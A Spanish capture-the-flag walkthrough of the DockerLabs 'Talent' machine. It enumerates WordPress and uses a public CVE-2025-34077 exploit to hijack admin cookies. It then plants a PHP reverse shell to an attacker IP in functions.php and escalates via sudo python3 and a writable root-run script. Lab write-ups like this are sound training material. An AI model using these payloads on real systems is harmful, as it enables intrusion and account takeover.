









# Talent DockerLabs (Intermediate)

## Contexto de la maquina

### Trayectoria Talent

<figure><figcaption></figcaption></figure>

### Descripción

**Talent** es una máquina Linux vulnerable que expone un servicio web basado en **WordPress**. El escenario comienza con una fase de enumeración del CMS donde se identifican usuarios y plugins instalados. Posteriormente se descubre que uno de los plugins instalados es vulnerable, lo que permite comprometer la sesión del usuario administrador.

Una vez obtenido acceso administrativo al panel de WordPress, se consigue ejecución remota de código mediante modificación de archivos del tema, lo que permite obtener una reverse shell como `www-data`. A partir de ahí, se abusa de una configuración insegura en `sudo` que permite ejecutar `python3` como otro usuario, y finalmente se explota una mala configuración de permisos sobre un script ejecutable como `root` para escalar privilegios.

**Objetivo del reto**

El objetivo es comprometer completamente la máquina mediante:

1. Explotación de una vulnerabilidad en un plugin de WordPress.
2. Obtención de una reverse shell en el servidor.
3. Escalada lateral a otros usuarios del sistema.
4. Escalada final de privilegios hasta `root`.

**Tipo de máquina**

* Linux
* Web (WordPress)
* Escalada de privilegios mediante `sudo` y permisos inseguros en el sistema.

**Habilidades y técnicas evaluadas**

* Enumeración de servicios con **Nmap**.
* Reconocimiento de CMS **WordPress**.
* Uso de **WPScan** para enumeración de usuarios y plugins.
* Explotación de vulnerabilidades en plugins de WordPress.
* Secuestro de sesión mediante cookies.
* Ejecución remota de código desde el panel de WordPress.
* Obtención y estabilización de reverse shell.
* Escalada lateral mediante configuraciones inseguras de `sudo`.
* Escalada de privilegios mediante permisos de escritura en scripts ejecutados como `root`.

### Análisis de vulnerabilidades

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

## Instalación

Cuando obtenemos el `.zip` nos lo pasamos al entorno en el que vamos a empezar a hackear la maquina y haremos lo siguiente.

```shell
unzip talent.zip
```

Nos lo descomprimira y despues montamos la maquina de la siguiente forma.

```shell
bash auto_deploy.sh talent.tar
```

Info:

```
                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Por lo que cuando terminemos de hackearla, le damos a `Ctrl+C` y nos eliminara la maquina para que no se queden archivos basura.

## Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.98 ( https://nmap.org ) at 2026-03-05 07:07 -0500
Nmap scan report for 172.17.0.2
Host is up (0.000038s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-trane-info: Problem with XML parsing of /evox/about
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-generator: WordPress 6.9.1
|_http-title: Mi sitio WordPress
MAC Address: 02:42:AC:11:00:02 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.23 seconds
```

Observamos que **únicamente el puerto 80 está abierto**, ejecutando un servidor **Apache 2.4.41 en Ubuntu**, y además el propio escaneo revela que el sitio está basado en **WordPress 6.9.1**.

Por lo tanto, accedemos al servicio web desde el navegador:

```
URL = http://<IP>/
```

Respuesta:

<figure><figcaption></figcaption></figure>

## wpscan (Wordpress)

<figure><figcaption></figcaption></figure>

Al inspeccionar el sitio web observamos que se trata de una instalación aparentemente estándar de **WordPress**.

Para continuar con la enumeración utilizamos la herramienta **WPScan**, especializada en auditorías de seguridad sobre WordPress.

Esta herramienta permite:

* Enumerar usuarios
* Detectar plugins
* Identificar versiones vulnerables
* Buscar configuraciones inseguras

Ejecutamos los siguientes comandos:

```shell
wpscan --url http://<IP>/ -e u # Enumerar usuarios
wpscan --url http://<IP>/ -e p # Enumerar plugins
```

Respuesta:

```
..................................<RESTO DE INFO>..................................

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:00 <==========================================================================================================> (10 / 10) 100.00% Time: 00:00:00

[i] User(s) Identified:

[+] admin
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By:
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

..................................<RESTO DE INFO>..................................

[+] Enumerating Most Popular Plugins (via Passive Methods)
[+] Checking Plugin Versions (via Passive and Aggressive Methods)

[i] Plugin(s) Identified:

[+] pie-register
 | Location: http://172.17.0.2/wp-content/plugins/pie-register/
 | Last Updated: 2026-02-10T08:54:00.000Z
 | [!] The version is out of date, the latest version is 3.8.4.8
 |
 | Found By: Urls In Homepage (Passive Detection)
 | Confirmed By: Urls In 404 Page (Passive Detection)
 |
 | Version: 3.7.1.0 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://172.17.0.2/wp-content/plugins/pie-register/readme.txt
```

Veremos que nos ha encontrado un usuario llamado `admin`, pero sobre todo vemos bastante interesante un plugin que nos ha detectado llamado `pie-register`, vamos a ver si hay alguna vulnerabilidad con la version que menciona dicho plugin `pie-register v3.7.1.0`.

## CVE-2025-34077

Tras investigar un poco, encontramos que existe una vulnerabilidad identificada como `CVE-2025-34077`.

Esta vulnerabilidad afecta a versiones **anteriores a la 3.7.1.4** del plugin **Pie Register**, por lo que **la versión instalada (3.7.1.0) es vulnerable**.

La explotación de esta vulnerabilidad permite **secuestrar la sesión del administrador**, obteniendo las **cookies de autenticación** del usuario `admin`.

PoC disponible en:

**Exploit PoC:**

URL = [Exploit PoC GitHub CVE-2025-34077](https://github.com/0xgh057r3c0n/CVE-2025-34077)

Clonamos el repositorio:

```shell
git clone https://github.com/0xgh057r3c0n/CVE-2025-34077.git
cd CVE-2025-34077/
```

Ejecutamos el exploit:

```shell
python3 CVE-2025-34077.py http://<IP>/
```

Respuesta:

```
_____________   _______________         _______________   ________   .________         ________     _____  _________________________ 
\_   ___ \   \ /   /\_   _____/         \_____  \   _  \  \_____  \  |   ____/         \_____  \   /  |  | \   _  \______  \______  \\
/    \  \/\   Y   /  |    __)_   ______  /  ____/  /_\  \  /  ____/  |____  \   ______   _(__  <  /   |  |_/  /_\  \  /    /   /    /
\     \____\     /   |        \ /_____/ /       \  \_/   \/       \  /       \ /_____/  /       \/    ^   /\  \_/   \/    /   /    / 
 \______  / \___/   /_______  /         \_______ \_____  /\_______ \/______  /         /______  /\____   |  \_____  /____/   /____/  
        \/                  \/                  \/     \/         \/       \/                 \/      |__|        \/                 

              by 0xgh057r3c0n | Pie Register WordPress plugin <= 3.7.1.4

[•] Sending payload to hijack admin session...

[+] Successfully hijacked cookies for user_id=1 (admin):
    wordpress_a2a379b8590d3431d7153bb3b68da0df = admin%7C1772886002%7CcRy3kxU0WMILzGXKM4LmPhAcItN3pivZLylXXE7BPSR%7C3c58bdb9acf33f2294f8f094bda39f31d17cb0080659b5d4eda41b6d6ed6d92b
    wordpress_logged_in_a2a379b8590d3431d7153bb3b68da0df = admin%7C1772886002%7CcRy3kxU0WMILzGXKM4LmPhAcItN3pivZLylXXE7BPSR%7Cb4bb40d299b226cbf695f0fd5f9c7b6ea0cddf5d223c1ce0e9c7ecbd3be1c041

[!] Use these cookies in your browser or tools like curl or Burp to act as admin.
```

El exploit ha funcionado correctamente y hemos obtenido las **cookies de sesión del usuario administrador**.

Esto nos permite **suplantar la sesión del admin sin conocer su contraseña**.

***

Agrega las cookies con los valores obtenidos:

* Nombre: `wordpress_a2a379b8590d3431d7153bb3b68da0df`
* Valor: `admin%7C1772886002%7CcRy3kxU0WMILzGXKM4LmPhAcItN3pivZLylXXE7BPSR%7C3c58bdb9acf33f2294f8f094bda39f31d17cb0080659b5d4eda41b6d6ed6d92b`
* Nombre: `wordpress_logged_in_a2a379b8590d3431d7153bb3b68da0df`
* Valor: `admin%7C1772886002%7CcRy3kxU0WMILzGXKM4LmPhAcItN3pivZLylXXE7BPSR%7Cb4bb40d299b226cbf695f0fd5f9c7b6ea0cddf5d223c1ce0e9c7ecbd3be1c041`

***

Debe quedar de la siguiente forma:

<figure><figcaption></figcaption></figure>

Una vez añadidas, recargamos la página.

Ahora veremos que el sistema nos reconoce como el usuario **admin**.

<figure><figcaption></figcaption></figure>

Si accedemos al perfil del usuario, veremos que tenemos acceso al **panel de administración de WordPress**.

<figure><figcaption></figcaption></figure>

## Escalate user www-data

<figure><figcaption></figcaption></figure>

Una vez obtenido acceso al panel de administración de **WordPress**, podemos aprovechar la capacidad de editar archivos del tema activo para ejecutar código en el servidor.

Nos dirigimos a la siguiente ruta dentro del panel:

```
Tools → Theme File Editor
```

Dentro de esta sección, en el panel derecho seleccionaremos el archivo:

```
functions.php
```

Este archivo forma parte del tema activo y se ejecuta dentro del contexto del servidor web, por lo que es un buen punto para **inyectar código PHP malicioso**.

Añadiremos al inicio del archivo la siguiente línea de **PHP**, que establecerá una **reverse shell** hacia nuestra máquina atacante:

```php
$sock=fsockopen("<IP_ATTACKER>",<PORT>);$proc=proc_open("/bin/sh", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);
```

<figure><figcaption></figcaption></figure>

Antes de guardar los cambios, debemos ponernos a la escucha desde nuestra máquina atacante utilizando `netcat`.

```shell
nc -lvnp <PORT>
```

Una vez estemos a la escucha, pulsamos el botón **Update File** para guardar el archivo modificado.

Si volvemos a la terminal donde tenemos el listener activo, veremos que se establece una conexión entrante desde la máquina víctima:

```
listening on [any] 7777 ...
connect to [192.168.5.131] from (UNKNOWN) [172.17.0.2] 53972
whoami
www-data
```

Esto confirma que hemos obtenido acceso remoto al sistema como el usuario del servidor web `www-data`, sin embargo, la shell obtenida es bastante limitada, por lo que procederemos a **sanitizarla** para convertirla en una **TTY interactiva funcional**.

### Sanitización de shell (TTY)

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

Con esto ya podremos leer la `flag` del usuario. (`/home/flag.txt`)

> flag.txt

```
LNDSG98DSFG7D8SGY8SDFG9
```

## Escalate user bobby

<figure><figcaption></figcaption></figure>

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for www-data on 92b3a30ea750:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on 92b3a30ea750:
    (bobby) NOPASSWD: /usr/bin/python3
```

Observamos algo interesante:

El usuario `www-data` puede ejecutar **`/usr/bin/python3` como el usuario `bobby` sin necesidad de contraseña**.

Sin embargo, si comprobamos la existencia del binario:

```shell
ls -la /usr/bin/python3
```

Respuesta:

```
ls: cannot access '/usr/bin/python3': No such file or directory
```

Esto indica que **el binario no está instalado en el sistema**, lo que impide aprovechar directamente este privilegio.

Además, desde la shell obtenida no tenemos permisos para escribir en `/usr/bin`, por lo que no podemos crear el binario manualmente.

Para solucionar esto, desde nuestro **host** manipularemos el contenedor **Docker** que está ejecutando la máquina vulnerable.

Primero identificamos el contenedor activo y una vez obtenido el **ID del contenedor**, ejecutamos el comando a ejecutar dentro del contenedor:

```shell
sudo docker ps -a # Identificamos el tag del proceso docker
sudo docker exec -it <ID_DOCKER> bash -c "apt update && apt install python3 -y"
```

Esto instalará Python dentro del contenedor.

Ahora volvemos a la shell donde tenemos acceso como `www-data` y comprobamos nuevamente:

```shell
ls -la /usr/bin/python3
```

Respuesta:

```
lrwxrwxrwx 1 root root 9 Mar 13  2020 /usr/bin/python3 -> python3.8
```

Ahora el binario ya existe, por lo que podemos aprovechar el privilegio `sudo`.

Ejecutamos:

```shell
sudo -u bobby /usr/bin/python3 -c 'import os; os.execl("/bin/bash", "bash")'
```

Respuesta:

```
bobby@92b3a30ea750:~$ whoami
bobby
```

Con esto hemos conseguido escalar privilegios y obtener una shell como el usuario `bobby`.

## Escalate Privileges

<figure><figcaption></figcaption></figure>

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for bobby on 92b3a30ea750:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User bobby may run the following commands on 92b3a30ea750:
    (ALL) NOPASSWD: /usr/bin/python3 /opt/backup.py
```

Esto significa que `bobby` puede ejecutar el script `/opt/backup.py` como **root** utilizando `python3`.

Procedemos a inspeccionar el contenido del script.

> backup.py

```python
#!/usr/bin/env python3
"""
Script de backup para /opt/backup.py
Permite hacer copias de seguridad de directorios y archivos importantes
"""

import os
import sys
import shutil
import datetime
import tarfile
import logging
import argparse
from pathlib import Path

# Configuración
BACKUP_DIR = "/backups"  # Directorio donde se guardarán los backups
LOG_FILE = "/var/log/backup.log"
RETENTION_DAYS = 30  # Días a mantener los backups

# Directorios a respaldar (configura según necesidades)
DIRS_TO_BACKUP = [
    "/etc",
    "/home",
    "/var/www",
    "/opt"
]

# Archivos de configuración específicos
FILES_TO_BACKUP = [
    "/etc/ssh/sshd_config",
    "/etc/fstab",
    "/etc/crontab"
]

class BackupSystem:
    def __init__(self):
        self.timestamp = datetime.datetime.now().strftime("%Y%m%d_%H%M%S")
        self.backup_file = f"{BACKUP_DIR}/backup_{self.timestamp}.tar.gz"
        self.setup_logging()
        self.ensure_backup_dir()
        
    def setup_logging(self):
        """Configurar sistema de logging"""
        logging.basicConfig(
            filename=LOG_FILE,
            level=logging.INFO,
            format='%(asctime)s - %(levelname)s - %(message)s'
        )
        self.logger = logging.getLogger(__name__)
        
    def ensure_backup_dir(self):
        """Asegurar que el directorio de backups existe"""
        os.makedirs(BACKUP_DIR, exist_ok=True)
        
    def verify_paths(self, paths):
        """Verificar qué rutas existen realmente"""
        existing_paths = []
        for path in paths:
            if os.path.exists(path):
                existing_paths.append(path)
            else:
                self.logger.warning(f"Ruta no existe: {path}")
        return existing_paths
        
    def create_backup(self):
        """Crear el archivo de backup"""
        self.logger.info(f"Iniciando backup: {self.backup_file}")
        
        try:
            # Verificar directorios y archivos a respaldar
            valid_dirs = self.verify_paths(DIRS_TO_BACKUP)
            valid_files = self.verify_paths(FILES_TO_BACKUP)
            
            if not valid_dirs and not valid_files:
                self.logger.error("No hay rutas válidas para respaldar")
                return False
            
            # Crear el archivo tar.gz
            with tarfile.open(self.backup_file, "w:gz") as tar:
                # Añadir directorios
                for dir_path in valid_dirs:
                    self.logger.info(f"Añadiendo directorio: {dir_path}")
                    tar.add(dir_path, arcname=os.path.basename(dir_path))
                
                # Añadir archivos individuales
                for file_path in valid_files:
                    if os.path.isfile(file_path):
                        self.logger.info(f"Añadiendo archivo: {file_path}")
                        tar.add(file_path, arcname=f"files/{os.path.basename(file_path)}")
            
            # Verificar que el backup se creó correctamente
            if os.path.exists(self.backup_file):
                size = os.path.getsize(self.backup_file)
                self.logger.info(f"Backup completado: {self.backup_file} ({size} bytes)")
                return True
            else:
                self.logger.error("Error: No se pudo crear el archivo de backup")
                return False
                
        except Exception as e:
            self.logger.error(f"Error durante el backup: {str(e)}")
            return False
            
    def clean_old_backups(self):
        """Eliminar backups antiguos según política de retención"""
        self.logger.info(f"Limpiando backups más antiguos de {RETENTION_DAYS} días")
        
        try:
            now = datetime.datetime.now()
            cutoff = now - datetime.timedelta(days=RETENTION_DAYS)
            
            for backup_file in Path(BACKUP_DIR).glob("backup_*.tar.gz"):
                file_time = datetime.datetime.fromtimestamp(backup_file.stat().st_mtime)
                
                if file_time < cutoff:
                    backup_file.unlink()
                    self.logger.info(f"Backup antiguo eliminado: {backup_file}")
                    
        except Exception as e:
            self.logger.error(f"Error limpiando backups antiguos: {str(e)}")
            
    def list_backups(self):
        """Listar todos los backups disponibles"""
        backups = sorted(Path(BACKUP_DIR).glob("backup_*.tar.gz"), reverse=True)
        
        if not backups:
            print("No hay backups disponibles")
            return
            
        print("\n=== BACKUPS DISPONIBLES ===\n")
        for i, backup in enumerate(backups, 1):
            size = backup.stat().st_size
            modified = datetime.datetime.fromtimestamp(backup.stat().st_mtime)
            print(f"{i}. {backup.name}")
            print(f"   Tamaño: {size/1024/1024:.2f} MB")
            print(f"   Fecha: {modified.strftime('%Y-%m-%d %H:%M:%S')}\n")
            
    def verify_backup(self, backup_file):
        """Verificar integridad de un backup"""
        try:
            with tarfile.open(backup_file, "r:gz") as tar:
                members = tar.getmembers()
                print(f"\n=== VERIFICANDO BACKUP: {backup_file} ===")
                print(f"Archivos en el backup: {len(members)}")
                print("\nPrimeros 10 archivos:")
                for member in members[:10]:
                    print(f"  - {member.name} ({member.size} bytes)")
                return True
        except Exception as e:
            print(f"Error verificando backup: {str(e)}")
            return False

def main():
    parser = argparse.ArgumentParser(description="Sistema de Backup")
    parser.add_argument("--action", choices=["backup", "list", "clean", "verify"], 
                       default="backup", help="Acción a realizar")
    parser.add_argument("--file", help="Archivo de backup para verificar")
    
    args = parser.parse_args()
    
    backup = BackupSystem()
    
    if args.action == "backup":
        print("Iniciando proceso de backup...")
        if backup.create_backup():
            print("✓ Backup completado exitosamente")
            backup.clean_old_backups()
        else:
            print("✗ Error durante el backup")
            sys.exit(1)
            
    elif args.action == "list":
        backup.list_backups()
        
    elif args.action == "clean":
        backup.clean_old_backups()
        print("Limpieza completada")
        
    elif args.action == "verify":
        if args.file:
            backup.verify_backup(args.file)
        else:
            print("Especifica el archivo a verificar con --file")
            sys.exit(1)

if __name__ == "__main__":
    if os.geteuid() != 0:
        print("Este script requiere permisos de root")
        sys.exit(1)
    main()
```

A simple vista, el script implementa un **sistema de backups** que comprime diferentes directorios del sistema utilizando `tar.gz`.

El código no presenta vulnerabilidades evidentes como **command injection**, por lo que analizamos el entorno donde se encuentra el archivo.

Listamos los permisos del directorio:

```
total 16
drwxr-xrwx 1 root root 4096 Feb 28 14:34 .
drwxr-xr-x 1 root root 4096 Mar  5 12:06 ..
-rw-r--r-- 1 root root 6871 Feb 28 14:33 backup.py
```

Observamos algo crítico:

```
drwxr-xrwx
```

Esto significa que **cualquier usuario tiene permisos de escritura sobre el directorio `/opt`**.

Por lo tanto, podemos **modificar o reemplazar el script que será ejecutado como root**.

Aprovechando esto, eliminaremos el script original y crearemos uno nuevo con el mismo nombre que nos otorgue una **shell como root**.

```shell
cd /opt
rm /opt/backup.py
# Seleccionamos "y" para eliminarlo

cat > /opt/backup.py << 'EOF'
import os
os.system('/bin/bash')
EOF

chmod +x /opt/backup.py
```

Ahora ejecutamos el script utilizando el privilegio `sudo`:

```shell
sudo python3 /opt/backup.py
```

Respuesta:

```
root@92b3a30ea750:/opt# whoami
root
```

Con esto hemos obtenido una **shell como root**, completando la escalada de privilegios.

Por lo tanto, damos por **comprometida la máquina**.
